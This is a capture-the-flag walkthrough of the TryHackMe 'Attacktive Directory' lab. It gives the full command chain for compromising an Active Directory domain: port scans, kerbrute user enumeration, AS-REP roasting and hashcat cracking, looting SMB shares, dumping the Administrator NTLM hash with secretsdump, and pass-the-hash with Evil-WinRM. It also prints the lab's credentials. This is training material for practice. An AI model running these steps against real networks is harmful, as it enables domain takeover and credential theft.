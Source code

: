 # Attacktive directory

## Attack tree

```text
1 Discovery (AND)
    1.1 Scan ports
    1.2 Enumerate 139/445
2 Enumerate DC users (AND)
3 Exploit Kerberos
    3.1 Query a ticket from users (if possible) (AND)
    3.2 Crack the hash
4 Enumerate the DC further (AND)
    4.1 Map remote SMB shares
    4.2 Search for information for further escalation
    4.3 Decode or crack if necessary
5 Elevate privileges within the domain
    5.1 Dump ntds.dit
    5.2 Get administrators NTLM hash
    5.3 Pass the hash with Evil-WinRM
```

## Example

The example was made from doing the [THM: Attacktive Directory room](https://tryhackme.com/room/attacktivedirectory)

### Discovery

#### Scan with nmap

    # nmap -sV -sC -T4 <IP address target>

#### Enumerate 139/445

    # enum4linux <IP address target>

### Enumerate the DC

Add the following line to `/etc/hosts` file:

    <IP address target> spookysec.local

Download the user list and password list in the ~/Downloads directory:

```text
wget https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/passwordlist.txt
wget https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt
```

Run the kerbrute command in the ~/Downloads directory:

    # /opt/kerbrute/kerbrute userenum --dc spookysec.local -d spookysec.local userlist.txt -t 100

### Exploiting Kerberos

Kerberos pre-authentication has been disabled for svc-admin. Get the ticket:

    # cd /opt/impacket/examples
    # python GetNPUsers.py spookysec.local/svc-admin -no-pass

Check what [type of hash](https://hashcat.net/wiki/doku.php?id=example_hashes) was retrieved:

    Kerberos 5 AS-REP etype 23 -> mode 18200

Crack the hash with the modified password list:

    # hashcat --force -m 18200 -a 0 svc-admin.hash /usr/share/wordlists/rockyou.txt

Connect to the share using smbclient:

```text
smbclient '\\spookysec.local\backup' -U svc-admin
smb: \> ls
smb: \> mget backup_credentials.txt
exit
```

Decode using [base64](https://www.base64decode.org/). We now have the credentials of the backup account.

`secretdump.py` is part of impacket:

```text
cd /opt/impacket/examples
python3 secretsdump.py spookysec.local/backup:FOUNDPASSWORDHERE@spookysec.local -just-dc-user Administrator
```

Now we have the password: management2005

### Enumerate the DC further

Map remote shares:

    $ smbclient -U spookysec.local/svc-admin -L //<IP target machine>
    Enter SPOOKYSEC.LOCAL\svc-admin's password: 

And:

    $ smbclient -U spookysec.local/svc-admin //<IP target machine>/backup
    Enter SPOOKYSEC.LOCAL\svc-admin's password: 
    Try "help" to get a list of possible commands.
    smb: \> ls
      .                                   D        0  Sat Apr  4 19:08:39 2020
      ..                                  D        0  Sat Apr  4 19:08:39 2020
      backup_credentials.txt              A       48  Sat Apr  4 19:08:53 2020

Get them backup credentials:

    smb: \> get backup_credentials.txt

It contains base64 encoded credentials. Decoding the base64 string reveals the credentials:
    
    $ echo "YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw" | base64 -d
    [...]:backup2517860

Now that we have new user account credentials, we may have more privileges on the system than before. 
The username of the account "backup" indicated it is the backup account for the Domain Controller. 
This account has a unique permission that allows all Active Directory changes to be synced with this user account. 
This includes password hashes.

### Elevate privileges within the domain

Retrieve all password hashes that this user account (which is synced with the domain controller) has to offer. 
Exploiting this, we may have full control over the AD Domain.

    $ python secretsdump.py spookysec.local/backup:FOUNDPASSWORDHERE@spookysec.local -just-dc-user Administrator
    ...
    [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
    [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
    [*] Using the DRSUAPI method to get NTDS.DIT secrets
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:e4876a80a723612986d7609aa5ebc12b:::
    ...

Pass the Administrators NTLM hash with Evil-WinRM:

    $ evil-winrm -i <IP target machine> -u Administrator -H <Administrators NTLM hash>

If on TryHackMe target, all flags are in the users desktops. The Administrator account has got acces to all.

## Tools

* [Impacket](https://github.com/SecureAuthCorp/impacket)

```text
# git clone https://github.com/SecureAuthCorp/impacket.git /opt/impacket
# pip3 install -r /opt/impacket/requirements.txt
# cd /opt/impacket/ && python3 ./setup.py install
```

* [Bloodhound](https://github.com/BloodHoundAD/BloodHound)

```text
# apt install bloodhound neo4j
```

* [Kerbrute](https://github.com/ropnop/kerbrute/releases/)

```text
# chmod +x filename
# mkdir /opt/kerbrute
# cp kerbrute_linux_amd64 /opt/kerbrute/kerbrute
```
